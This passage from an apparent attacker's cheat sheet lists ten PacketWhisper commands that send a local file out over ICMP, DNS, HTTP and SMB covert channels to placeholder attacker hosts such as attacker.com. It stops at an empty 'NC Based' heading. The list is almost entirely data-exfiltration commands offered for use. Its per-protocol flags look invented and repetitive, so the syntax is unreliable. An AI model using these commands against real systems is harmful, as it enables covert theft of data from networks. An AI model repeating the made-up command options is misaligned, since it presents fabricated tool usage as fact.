 


### text-based steganography

1. **Using PacketWhisper to exfiltrate data via ICMP covert channel:**


`python3 PacketWhisper.py send --icmp -i eth0 -f /path/to/local/file.txt -a [attacker_IP]`

2. **Using PacketWhisper to exfiltrate data via DNS covert channel:**


`python3 PacketWhisper.py send --dns -i eth0 -f /path/to/local/file.txt -d [attacker_domain]`

3. **Using PacketWhisper to exfiltrate data via HTTP covert channel:**


`python3 PacketWhisper.py send --http -i eth0 -f /path/to/local/file.txt -u http://attacker.com/upload`

4. **Using PacketWhisper to exfiltrate data via SMB covert channel:**


`python3 PacketWhisper.py send --smb -i eth0 -f /path/to/local/file.txt -s [attacker_smb_share] -u [username] -p [password]`

5. **Using PacketWhisper to exfiltrate data via ICMP tunneling covert channel:**



`python3 PacketWhisper.py send --icmp-tunnel -i eth0 -f /path/to/local/file.txt -a [attacker_IP]`

6. **Using PacketWhisper to exfiltrate data via DNS tunneling covert channel:**


`python3 PacketWhisper.py send --dns-tunnel -i eth0 -f /path/to/local/file.txt -d [attacker_domain]`

7. **Using PacketWhisper to exfiltrate data via HTTP tunneling covert channel:**


`python3 PacketWhisper.py send --http-tunnel -i eth0 -f /path/to/local/file.txt -u http://attacker.com/upload`

8. **Using PacketWhisper to exfiltrate data via SMB tunneling covert channel:**


`python3 PacketWhisper.py send --smb-tunnel -i eth0 -f /path/to/local/file.txt -s [attacker_smb_share] -u [username] -p [password]`

9. **Using PacketWhisper to exfiltrate data via DNS multi-packet covert channel:**


`python3 PacketWhisper.py send --dns-multi -i eth0 -f /path/to/local/file.txt -d [attacker_domain]`

10. **Using PacketWhisper to exfiltrate data via HTTP multi-packet covert channel:**


`python3 PacketWhisper.py send --http-multi -i eth0 -f /path/to/local/file.txt -u http://attacker.com/upload`




### NC Based
